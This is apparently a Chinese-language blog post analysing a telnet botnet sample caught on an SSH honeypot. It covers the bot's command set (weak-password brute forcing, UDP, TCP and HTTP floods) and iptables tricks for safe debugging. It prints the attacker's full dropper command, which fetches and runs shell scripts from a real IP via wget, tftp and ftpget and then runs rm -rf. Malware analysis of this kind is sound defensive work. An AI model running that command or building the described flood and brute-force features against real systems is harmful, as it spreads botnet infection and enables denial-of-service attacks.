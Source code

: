 ```yaml
---
layout: post
title: "MalwareMustDie Gucci样本分析"
---
```


# 0x00 背景

在ssh蜜罐上捕获到恶意样本，执行的命令如下：

```
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://212.47.239.249/justyzoat.sh; chmod 777 justyzoat.sh; sh justyzoat.sh; tftp 212.47.239.249 -c get tutftp1.sh; chmod 777 tutftp1.sh; sh tutftp1.sh; tftp -r tutftp2.sh -g 212.47.239.249; chmod 777 tutftp2.sh; sh tutftp2.sh; ftpget -v -u anonymous -p anonymous -P 21 212.47.239.249 tuftp1.sh tuftp1.sh; sh tuftp1.sh; rm -rf justyzoat.sh tutftp1.sh tutftp2.sh tuftp1.sh; rm -rf *
```

<!-- more -->

后续分析过程中只能下载该ip的justyzoat.sh：

![][1]

从ip下载不同架构上的二进制恶意样本，实现的功能都是telnet botnet的被控端，等待接收主控端ip的指令并执行。虽然该ip地址现已无法连接，并且主控端的ip被硬编码在二进制文件中，但是在[psbdmp.ws](http://psbdmp.ws/KPgFrxAw)上发现了疑似攻击者用来扫描ssh弱口令并执行命令的脚本，所以只要攻击者还会有所行动，ssh蜜罐还是可以捕获到的。

这个wget样本是ELF32文件，接下来会对该样本进行静态分析，并使用iptables对其控制调试。在分析完该样本后，我更愿意把它叫做gucci样本。

# 0x01 静态分析功能

样本是静态链接，又没strip，所以IDA反汇编看起来很轻松。

![][2]

## 接收指令部分

1. 每5秒调用initConnection函数，去主动连接主控端ip 212.47.239.249的23端口：

    ![][3]

2. recvLine函数接收指令后，指令需要满足"`!XXX cmd arg1 arg2 arg3 …`"的格式才能传递给processCmd函数执行对应功能。
3. 在判断cmd时稍微混淆了一下，本质还是cmp后进入对应逻辑：

    ![][4]

## HTP指令

1. HTP指令可接收2个参数，参数2（默认值为500）只要大于0就会调用htp(100,arg1)函数，来扫描公网ip 23端口的弱口令，并report给主控端。
2. htp函数的100用来设置扫描过程中timeout的微秒值，函数内部会调用getdtablesize函数和arg1比较，取较大值作为扫描的并发数。

    ![][5]

3. 扫描过程中每个文件描述符所用的结构体如下：

    ![][6]

4. 在爆破弱口令过程中，判断是否符合条件的字符串表如下：

    ![][7]

    htp函数中先是并发去连接公网ip的23端口，然后接收消息查看是否包含advances中的字符串，接着爆破弱口令，传递完账号密码后先判断是否有advances2字符串，然后判断是否有fails字符串，最后再判断是否有successes字符串。所以响应中有”#”时才会被认定为爆破成功。

5. 爆破成功后默认会发送"`REPORT ip:username:password`"至主控端sock。最后会发送相同的命令使主机执行justyzoat.sh。

    ![][8]

## UDP指令

1. UDP指令可接收6个参数，可对指定ip进行UDP flood。
2. 参数1为要攻击的ip地址，可为多个ip地址使用"`,`"分割。
3. 参数2为要攻击的端口，如果为0则随机生成目的端口。
4. 参数3为攻击持续的时间。
5. 参数4决定是否伪造源ip地址，不可大于32，如果为32则不伪造源ip地址，否则会被传递给getRandomIP函数。
6. 参数5为udp数据包中data的长度，不可大于65500，会被传递给makeRandomStr函数生成随机字符串。
7. 参数6为每一次攻击sendto数据包的次数。

![][9]

## TCP指令

1. TCP指令可接收7个参数，可对指定ip进行TCP flood。
2. 参数1,2,3的功能和UDP指令相同，参数4也不可大于32，但是默认会伪造源ip地址。
3. 参数5指定TCP数据包的标志位，有"`all,syn,rst,fin,ack,psh,urg`"这7种，可以使用"`,`"组合。
4. 参数6,7则与UDP指令的参数5,6功能相同。

## HTTP指令

1. HTTP指令需要接收6个参数，可对指定的host进行HTTP flood。
2. 参数1指定HTTP method，参数2指定host，参数3指定port，参数4指定URL，参数5指定攻击持续的时间，参数6指定fork并发的数量。

![][10]

## STD指令

1. STD指令需要接收3个参数，可发送带有69字节data的UDP数据包。
2. 参数1为要发送的hostname，多个可以用"`,`"分割，参数2指定网络字节序的port，参数3指定持续发包的时间。

![][11]

## DIE指令

1. DIE指令是直接退出，结束被控端。

# 0x02 动态调试时使用iptables

在主动连接过程中，因为是直接tcp连接硬编码的主控端ip地址，所以使用iptables做一下DNAT，也方便在本地控制调试被控端：

{% highlight bash %}
sudo iptables -t nat -A OUTPUT -d 212.47.239.249 -j DNAT --to-destination 127.0.0.1
{% endhighlight %}

在调试HTP指令时，为了不让我们的主机去扫描公网的23端口，还是借用iptables再做一次DNAT：

{% highlight bash %}
sudo iptables -t nat -A OUTPUT -p tcp --dport 23 -j DNAT --to-destination 127.0.0.2
{% endhighlight %}

所以在127.0.0.2我们可以监听端口，伪造一个可以登录的服务，可以记录到被控端向主控端上报爆破成功信息：

![][12]

但是其并发数一次性太高，索性gdb attach子进程，在getRandomPublicIP函数处下断点，并且patch原程序增大timeout等待时间（iptables处理耗时），这样也好查看流量，最终在伪造的23端口服务端可以看到其接受的消息：

![][13]

# 0x03 其他

1. 在HTTP flood中host的设定是没有加上端口的，在某些情况下会有点问题。
2. 可以使用nc连接主控端的23端口，实现一个简单的下发指令监控。

[1]: http://ojyzyrhpd.bkt.clouddn.com/20171209/1.png
[2]: http://ojyzyrhpd.bkt.clouddn.com/20171209/2.png
[3]: http://ojyzyrhpd.bkt.clouddn.com/20171209/3.png
[4]: http://ojyzyrhpd.bkt.clouddn.com/20171209/4.png
[5]: http://ojyzyrhpd.bkt.clouddn.com/20171209/5.png
[6]: http://ojyzyrhpd.bkt.clouddn.com/20171209/6.png
[7]: http://ojyzyrhpd.bkt.clouddn.com/20171209/7.png
[8]: http://ojyzyrhpd.bkt.clouddn.com/20171209/8.png
[9]: http://ojyzyrhpd.bkt.clouddn.com/20171209/9.png
[10]: http://ojyzyrhpd.bkt.clouddn.com/20171209/10.png
[11]: http://ojyzyrhpd.bkt.clouddn.com/20171209/11.png
[12]: http://ojyzyrhpd.bkt.clouddn.com/20171209/12.png
[13]: http://ojyzyrhpd.bkt.clouddn.com/20171209/13.png
